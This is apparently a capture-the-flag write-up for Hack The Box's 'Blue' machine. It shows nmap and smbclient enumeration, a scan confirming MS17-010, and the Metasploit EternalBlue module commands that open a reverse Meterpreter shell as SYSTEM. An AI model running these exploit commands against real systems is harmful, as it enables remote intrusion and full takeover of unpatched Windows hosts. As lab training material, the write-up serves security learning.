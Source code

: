 ```yaml
---
title: "Blue"
tags:
  - Easy
  - Windows
  - EternalBlue
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
## Enumeration
### Nmap Scan
Perform an initial scan to enumerate open ports and services:

```shell
nmap -p- --min-rate=1000 -sV 10.10.10.40
```

**Output:**

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB enumeration:

```
smbclient -N -L \\\\10.10.10.40\\
```

**Output:**

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Share           Disk      
Users           Disk
```  

Shares returned `Access Denied` or default content.

### Vulnerability Check

```
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Output:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## EternalBlue Exploitation (MS17-010)
EternalBlue exploits a critical vulnerability in SMBv1, enabling remote code execution with SYSTEM privileges. 

### Exploit Using Metasploit
Execute the EternalBlue exploit module:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```

![screenshot1](../assets/Blue/screenshot1.png)

Gained a Meterpreter shell as NT AUTHORITY\SYSTEM.

![screenshot2](../assets/Blue/screenshot2.png)

User and root flag are located in haris' and Administrator Desktop respectively.